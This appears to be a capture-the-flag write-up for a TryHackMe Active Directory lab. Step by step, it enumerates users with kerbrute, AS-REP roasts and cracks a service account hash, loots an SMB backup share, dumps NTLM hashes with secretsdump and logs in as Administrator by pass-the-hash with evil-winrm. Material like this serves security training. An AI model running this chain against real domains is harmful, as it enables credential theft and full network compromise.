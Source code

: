 # Recon
```
sudo nmap -sV -sC -O -p- -oN nmap.txt -Pn 10.10.186.109
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/main/AttacktiveDirectory/assets/1.png">

A lot of open ports and the target appears to be a domain controller. This will most likely give us a lot of enumeration abilities.
<br>
# Enumeration
We spot the domain controller: spookysec.local
Let's add it to the /etc/hosts file and run kerbrute to enumerate usernames.

> Kerbrute is a tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication. https://github.com/ropnop/kerbrute
```
./kerbrute userenum --dc spookysec.local -d spookysec.local ~/tmp/users.txt
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/AttacktiveDirectory/assets/2.png">

We notice backup, administrator and svc-admin as interesting accounts.
<br>
# Initial foothold
We'll try to get hashes with GetNPUsers.py from Impacket.
```
GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.186.109
```
```
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:d31db66d309676ff0e7c5ecd880e698c$ea9ff1c3cb9619410aad19503c0c4381008eff11d3ea6c09ab916b44b1eb43814c2f09eb0844c934391e8e033c565dff359fa2e0530aadffcbb4f433fe87e1f20be9fce5d7ea01b2d7ca7390d38214cb2e0d0ab56b6e0a5f7a5c73d45aeaf475b00ca34245478c9deec60050ace07d31b1899c134e755ed46dbc7201de4de174bfbd1fdaf6d8a67789f10e4af8a88652f07a94d180f1ddac56e8e419e437b7e18552bd59fec397ec41ff4376ff97b18ead4d54b9c32398b8a5a6595cb949035a41fbbb8fe68da5ca9c6d937af1fc06e63fef1d3372a57a4c9289244a79cfe10bd76af6191d11ba87fd3dc145117ff8220aaa
```

We got a Keberos 5. AS-REP hash. Let's try to crack it with hashcat:
```
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

We got a pass:
```
spookysec.local/svc-admin:management2005
```

Let's list the shares with this account:
```
smbclient -L //10.10.186.109/ -U spookysec.local/svc-admin
```                                                  
Enter SPOOKYSEC.LOCAL\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 


Let's connect to the backup share and download all files:
```
smbclient //10.10.186.109/backup/ -U spookysec.local/svc-admin 
Enter SPOOKYSEC.LOCAL\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 3601776 blocks available
smb: \> mget *
```

We got a base64 encoded string. After decoding it says:
```
backup@spookysec.local:backup2517860
```

Let's use this account to dump NTLM hashes with secretsdump.
```
secretsdump.py -dc-ip 10.10.186.109 spookysec.local/backup:backup2517860@10.10.186.109
```

We got a administrator hash:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
```

Let's use it to connect with evil-winrm:
```
evil-winrm  -i 10.10.186.109 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/AttacktiveDirectory/assets/3.png">










